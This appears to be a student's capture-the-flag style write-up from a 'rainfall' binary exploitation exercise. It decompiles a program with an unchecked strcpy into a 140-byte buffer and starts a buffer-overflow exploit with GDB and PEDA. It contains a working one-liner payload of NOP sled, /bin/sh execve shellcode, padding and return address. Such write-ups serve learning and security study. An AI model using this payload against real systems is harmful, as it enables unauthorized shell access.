 ```shell

┌──(fab㉿kali)-[~]
└─$ ghidra
```

We probably have to make a buffer overflow, since there's a `puts()` function waiting for an input and a totally useless `main()` function:
```shell
bool main(int param_1,int param_2)
{
  char local_90 [140];
  
  if (1 < param_1) {
    strcpy(local_90,*(char **)(param_2 + 4));
    puts(local_90);
  }
  return param_1 < 2;
}
```

To learn how to execute a buffer overflow, I followed the leads of [Processus Thief on YouTube](https://www.youtube.com/watch?v=Uk-xv8uxiJo).

Since the LibC is used, we can probably make the program [call a function](https://reverseengineering.stackexchange.com/questions/27826/using-a-buffer-overflow-to-call-a-function) like `system()` or `execve()` through a [buffer overflow](https://pointerless.wordpress.com/2012/02/26/strcpy-security-exploit-how-to-easily-buffer-overflow):
![[Pasted image 20240424184520.png]]

Among the tools available by default on Linux to analyze an executable, we have `readelf`, `objdumps`, `nm`, `gdb`, `dmesg`... Refer to this [write-up](https://jaybailey216.com/pwn-challenge-bat-computer) to see some of these tools at work.

To create a buffer overflow we can use Python:
```shell
./exploit_me $(python -c "print '\x90'*37+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*100 +'\xb0\xf6\xff\xbf'")
```

However, for this challenge we will use Perl.

To understand what to do, we will use [PEDA](https://github.com/longld/peda), which stands for Python Exploit Development Assistance for GDB.

We launch our executable and we test it with a line of 'A' longer than 140 characters, the size of the `local_90` buffer:
```shell
┌──(fab㉿kali)-[~/rainfall/b2r]
└─$ gdb exploit_me
```
![[Pasted image 20240425135544.png]]
![[Pasted image 20240425135608.png]]
We see that the EBP register contains the hexadecimal string 0x41414141, (four times the letter 'A'), as we can see from the ASCII table:
![[Pasted image 20240425135520.png]]
